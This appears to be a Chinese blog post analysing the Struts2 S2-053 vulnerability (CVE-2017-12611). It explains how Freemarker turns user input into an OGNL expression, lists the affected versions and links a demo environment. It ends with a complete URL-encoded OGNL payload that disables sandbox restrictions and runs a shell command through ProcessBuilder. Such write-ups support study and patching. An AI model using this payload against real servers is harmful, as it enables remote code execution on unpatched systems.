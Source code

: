 ```yaml
---
layout: post
title: "S2-053"
subtitle: 'S2-053漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第十五篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> S2-053漏洞,又名CVE-2017-12611漏洞

> Struts2在使用Freemarker模板引擎时会允许解析OGNL表达式,用户输入的数据本身不会被当作OGNL表达式解析,但输入的数据被Freemarker模板引擎解析一次后变成了一个ONGL表达式,从而导致代码执行.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-053)

#### 漏洞成因

> Struts2在使用Freemarker模板引擎时会允许解析OGNL表达式,用户输入的数据本身不会被当作OGNL表达式解析,但输入的数据被Freemarker模板引擎解析一次后变成了一个ONGL表达式,从而导致代码执行.

#### 漏洞影响范围

> Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了.

### Payload

#### 执行命令

```java
%25%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23_memberAccess%3F(%23_memberAccess%3D%23dm)%3A((%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ognlUtil%3D%23container.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ognlUtil.getExcludedPackageNames().clear()).(%23ognlUtil.getExcludedClasses().clear()).(%23context.setMemberAccess(%23dm)))).(%23cmd%3D'whoami').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe'%2C'%2Fc'%2C%23cmd%7D%3A%7B'%2Fbin%2Fbash'%2C'-c'%2C%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%40org.apache.commons.io.IOUtils%40toString(%23process.getInputStream()))%7D%0A
```
